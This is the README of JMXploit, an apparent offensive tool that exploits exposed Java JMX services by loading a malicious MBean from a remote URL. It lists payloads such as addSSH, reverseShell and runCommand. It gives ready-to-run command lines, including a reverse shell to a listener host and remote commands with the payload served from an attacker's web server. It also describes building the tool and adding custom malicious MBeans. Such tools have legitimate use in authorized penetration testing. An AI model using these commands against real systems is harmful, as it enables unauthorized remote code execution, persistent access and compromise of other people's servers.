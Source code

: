 # JMXploit

## Overview: 
JMX (Java Management Extensions) is a framework used to manage Java applications. When running an application, you can attach JMX to it to see debug information, memory usage, and invoke management beans (MBeans). An MBean allows you to create and invoke functionality at runtime on a JMX-managed process. Oracle has some detailed documentation on this protocol and its uses here: https://docs.oracle.com/javase/tutorial/jmx/overview/index.html.

By default, JMX comes with a series of functionality that is used to manage the JMX configuration, including one which allows loading of arbitrary MBeans from a remote URL. This tool exploits this behavior by:
1. Connecting to the JMX installation
2. Enabling the management MBean 
3. Using the management MBean to load malicious Mbean (such as a reverse shell)
4. Invoking methods in the malicious Mbean
5. Uninstalling the malicious Mbean

This is not a new attack, but this tool was developed for portability and to allow for some custom functionality to make exploitation easier (such as extensibility and payload generation) 
### A detailed post by Mogwai Labs on exploiting JMX:
https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/


## Basic Usages
### Flags
```
 -h,--help                   Print the options and exit.
 -g <mbean>                  generates prebuilt mbean payload and exits
 -l                          lists all payloads and exits
 -rhost <ip>                 specifies the target host
 -rport <port>               sets the target port
 -p,--payload <mbean>        specifies a payload to generate and use
 -lhost <ip>                 the host to load the payload from
 -lport <port>               the port to load the payload from
 -noserver                   do not turn on internal file server
 -nou                        do not uninstall the payload after execution
 -u                          cleanup/uninstall mbean with config name
 -m,--method <method>        method to call (e.g. addSSH)
 -param,--params <[param]>   params to use, only Strings allowed
 -debug                      turn on compilation debugging
```
### Available default payloads (case insensitive)
```
addSSH
reverseShell
runCommand
enum
test
```

### Some common use cases
#### Simplest case
1. `JMXploit.jar -rhost 10.2.3.4 -rport 1099 -p runcommand`
2. This generates a payload such as the `runCommand` payload, loads it into the target, invokes the default method, and then unloads it
3. On most payloads the default method will just tell you the options you can use for that payload

#### Invoking a payload with parameters
1. `JMXploit.jar -rhost 10.2.3.4 -rport 1099 -p runcommand -method runCommand -params ls` 
2. Most payloads will list available methods for you along with their parameters if you invoke the default method
3. Parameters should be comma separated, without spaces between parameters
4. `JMXploit.jar -rhost 10.2.3.4 -rport 1099 -p reverseshell -method reverseShell -params 10.90.1.2,22`

#### To use a web server on a different machine than where you're launching from
1. Generate a payload kit with the `-g` flag, for example: `JMXploit.jar -g runcommand`
2. Copy the payload kit (the payload jar file and index.html in the `output` folder) to whatever server you want to use 
3. Run the tool using the lhost and lport flags to point to the correct server:
`JMXploit.jar -rhost 10.2.3.4 -rport 1099 -noserver -lhost 10.90.1.2 -lport 8080 -p runcommand -params ls`
   
#### Changing the MBean names
1. There is both a management MBean and a Malicious MBean loaded. By default these are loaded into the following locations: `java.util.logging:type=pineapple` and
`java.util.logging:type=pineappleTwo`
2. To edit these locations/names, modify the properties.conf file. You will need to use a properly formatted name and location, as well as escape characters appropriately.

## Building

To build JMXploit, run `./gradlew build`

If successful, the jar file should end up in `build/libs/JMXploit.jar`

## Debugging
### Standing up JMX locally for testing
#### Without auth:
```java -jar -Dcom.sun.management.jmxremote -Dcom.sun.management.jmxremote.authenticate=false -Dcom.sun.management.jmxremote.port=1099 -Dcom.sun.management.jmxlocal.port=1099 -Dcom.sun.management.jmxremote.ssl=false <TEST_JAR.jar>```
In the above, the jar is the only think you'll need to change (assuming you want port 1099); just use any runnable jar that won't terminate immediately. 

#### With auth:
1. Kind of a nuisance to set up initially, make a password file and add a user to it such as `bob bobpassword`
2. Modify your access file, jmxremote.access, which may be at a path similar to `usr/lib/jvm/java-11-openjdk-amd64/conf/management/jmxremote.password` such as 
```# o The "monitorRole" role has readonly access.
#    The "controlRole" role has readwrite access and can create the standard
#   Timer and Monitor MBeans defined by the JMX API.`

monitorRole   readonly
bob	readonly
controlRole   readwrite \
              create javax.management.monitor.*,javax.management.timer.* \
              unregister
```
3. Now start JMX as below. You may need to restart it once or twice for it to use the cred file correctly
```sudo java -jar -Dcom.sun.management.jmxremote -Dcom.sun.management.jmxremote.port=7099 -Dcom.sun.management.jmxremote.password.file=/usr/lib/jvm/java-11-openjdk-amd64/conf/management/jmxremote.password -Dcom.sun.management.jmxlocal.port=7099 -Dcom.sun.management.jmxremote.ssl=false test.jar```
4. similar to above, test.jar is just any long-running executable jar file

### Built-in client
1. If you have java installed you can run the command `jconsole` to test your JMX instance using the built-in GUI. The tool comes with Java
2. When you invoke the tool, you can add the `-nou` flag to prevent uninstalling the payload. This works well with jconsole to give you a graphical interface to debug with

## Making a custom MBean
1. When the application is ran it will generate a 'payloads' directory. This is where the code for MBeans live. These payloads are dynamically compiled, so you can add Mbeans without modifying the core code
2. Drop the necessary classes in this directory, you will need an interface and a class with your code
3. In general, MBeans follow a naming convention. There is a chance it will not work if you do not follow that convention: https://docs.oracle.com/javase/tutorial/jmx/mbeans/standard.html. TLDR, you may need to name your interfaces with the suffix MBean.

### Common issues/errors

"The RMI service is unavailable at the target specified: 10.2.3.4:1099" - You likely don't have network connectivity to the specified server on that port. 

Long delay after "Attempting to load the payload from http://10.0.0.9:55963/index.html" followed by "javax.management.MBeanException: javax.management.ServiceNotFoundException: Problems while parsing URL [http://10.0.0.9:55963/index.html], got exception [java.net.ConnectException: Connection timed out]" - the server doesn't have network connectivity to load the remote payload from the specified URL. Try using the -lhost and -lport flags to load the payload from a custom location.